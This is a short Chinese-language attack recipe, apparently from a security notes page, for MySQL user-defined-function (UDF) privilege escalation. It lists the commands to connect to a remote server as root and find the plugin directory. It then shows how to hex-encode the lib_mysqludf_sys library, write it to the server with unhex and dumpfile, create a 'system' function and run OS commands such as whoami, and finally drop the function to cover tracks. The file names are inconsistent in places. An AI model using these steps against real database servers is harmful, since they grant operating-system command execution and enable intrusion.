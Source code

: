 1.首先连接数据库:
mysql -h rhost -uroot -p:
2.查找udf位置:
show variables like "%plugin%";
3.解密成hex网上下载的用户自定义函数:
Downloadurl: https://github.com/mysqludf/lib_mysqludf_sys.git
mysql> select hex(load_file('lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt';
4.在远程Mysql上加载HEX编码的udf:
select unhex('HEX..') into dumpfile 'dir/mysqludf.so';
5.在本地计算机上用nm查看当前udf支持什么函数(kali下):
show function this udf fun:
nm -D mysqludf.so
6.在远程计算机上加载自定义函数:
create function system returns string soname "udftest.so";
7.在远程计算机上执行命令exec:
select system('whoami');
8.查找远程计算机上的mysql自定义函数:
select * from mysql.func;
9.删除远程计算机的mysql自定义函数:
drop function function_name；
